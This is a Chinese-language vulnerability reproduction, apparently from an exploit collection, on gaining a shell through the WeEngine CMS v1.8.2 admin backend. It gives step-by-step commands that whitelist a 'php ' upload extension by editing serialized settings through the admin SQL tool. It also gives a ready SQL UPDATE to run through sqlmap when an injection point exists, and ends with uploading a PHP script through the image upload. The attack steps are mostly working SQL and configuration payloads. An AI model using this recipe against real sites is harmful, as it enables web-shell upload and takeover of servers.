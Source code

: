 # 微擎cms v1.8.2 后台getshell

### 一、漏洞简介

### 二、漏洞影响

v1.8.2（201812130002）

### 三、复现过程

站点-附件设置-支持文件后缀

![](images/15897257160941.png)


在安装完成的时候,数据库里面并没有写入支持文件后缀的值,需要我们进行添加需要的脚本格式php等等

![](images/15897257239677.png)


直接写上支持的后缀为php是会带入到数据库的,提交完毕以后数据库会显示可上传的值


```bash
a:3:{s:16:"attachment_limit";  
i:0;s:5:"image";a:5:{s:5:"thumb";i:0;s:5:  
"width";i:800;s:10:"extentions";  
a:4:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;s:3:"png";}  
s:5:"limit";i:5000;s:14:"zip_percentage";s:3:"100";}  
s:5:"audio";a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}
```

#### 漏洞利用

写入任意字符

![](images/15897257510711.png)



```bash
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"aaa";}s:5:"limit";i:5000;
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";  a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}
```

站点-常用工具-数据库-执行SQL语句替换之前插入的值 (记得打开调试模式)


```sql
UPDATE ims_core_settings SET value = replace(value, 'aaa', 'php ')
```

注意php后有一个空格

or 如果在渗透过程中有SQL注入点的情况下 有用户权限能够上传,尝试直接在SQLMAP执行语句


```sql
UPDATE `ims_core_settings` SET
`key` = 'upload',
`value` = 'a:2:{s:5:\"image\";a:4:{s:5:\"thumb\";i:0;  
s:5:\"width\";i:800;s:10:\"extentions\";  
a:5:{i:0;s:3:\"gif\";i:1;s:3:\"jpg\";i:2;  
s:4:\"jpeg\";i:3; s:3:\"png\";i:4;s:3:\"php \";}  
s:5:\"limit\";i:5000;}s:5:\"audio\";  
a:2:{s:10:\"extentions\";a:1:{i:0;s:3:\"mp3\";}s:5:\"limit\";i:5000;}}'
WHERE `key` = 'upload' AND `key` = 'upload' COLLATE utf8mb4_bin;
```

![](images/15897257809362.png)



```bash
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"php ";}s:5:"limit";i:5000;  
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}
```

执行完毕-系统-更新缓存

![](images/15897257943173.png)


上传php文件

以上全部操作完毕,直接在可以上传图片的地方进行上传脚本

![](images/15897258015305.png)


四、参考链接

https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html